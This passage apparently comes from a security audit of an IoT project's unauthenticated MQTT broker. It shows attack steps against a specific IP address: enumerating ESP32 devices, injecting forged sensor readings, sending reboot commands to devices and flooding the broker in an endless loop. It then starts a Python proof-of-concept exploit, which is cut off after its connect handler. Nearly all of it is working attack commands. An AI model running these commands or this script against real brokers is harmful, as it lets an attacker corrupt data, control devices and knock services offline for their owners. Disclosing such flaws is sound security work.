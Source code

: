 ```

[All sensor data exposed!]

Step 4: Enumerate Devices
──────────────────────────────────────
$ mosquitto_sub -h 161.97.170.64 -t "winwinlabs/+/+/status" -v

Found devices:
- esp32-84F3EB123456
- esp32-84F3EB789ABC  
- esp32-84F3EB DEF012

Step 5: Inject False Data
──────────────────────────────────────
$ mosquitto_pub -h 161.97.170.64 \
    -t "digvijay123digvijay" \
    -m '{"timestamp":"2025-10-29T12:01:00Z",
         "sensor_id":"ATTACKER/malicious",
         "reading_value":999}'

[False reading injected into system!]

Step 6: Command and Control
──────────────────────────────────────
# If devices subscribe to command topics (even if not in current code)
$ mosquitto_pub -h 161.97.170.64 \
    -t "winwinlabs/digvijay123digvijay/esp32-84F3EB123456/cmd" \
    -m '{"action":"reboot"}'

[Can send commands to compromised devices]

Step 7: Denial of Service
──────────────────────────────────────
$ while true; do 
    mosquitto_pub -h 161.97.170.64 \
        -t "digvijay123digvijay" \
        -m "FLOOD_MESSAGE_$(date +%s%N)"
  done

[Message queue overwhelmed]

RESULT: Complete MQTT infrastructure compromised
        All data intercepted and manipulable
        Potential for widespread disruption
```

### Proof of Concept

**Python Script for MQTT Exploitation:**

```python
#!/usr/bin/env python3
import paho.mqtt.client as mqtt
import json
import time

MQTT_BROKER = "161.97.170.64"
MQTT_PORT = 1883
MQTT_TOPIC = "digvijay123digvijay"

def on_connect(client, userdata, flags, rc):
    """Callback when connected to MQTT broker"""
    if rc == 0:
        print(f"[+] Connected to MQTT broker: {MQTT_BROKER}:{MQTT_PORT}")
```